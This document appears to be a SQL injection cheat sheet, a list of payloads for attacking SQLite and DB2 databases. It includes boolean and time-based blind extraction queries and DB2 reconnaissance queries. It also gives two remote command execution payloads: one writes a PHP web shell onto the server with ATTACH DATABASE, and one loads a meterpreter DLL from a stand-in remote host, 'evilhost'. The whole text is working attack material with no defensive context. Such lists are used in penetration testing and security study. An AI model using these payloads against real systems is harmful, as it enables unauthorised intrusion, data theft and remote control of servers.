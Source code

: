 ## Boolean - Extract info

```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based

```
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database

```
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?php system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension

```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled



## DB2注入

### Version

```
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

### Comments

```
select blah from foo -- comment like this (double dash)
```

### Current User

```
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
```
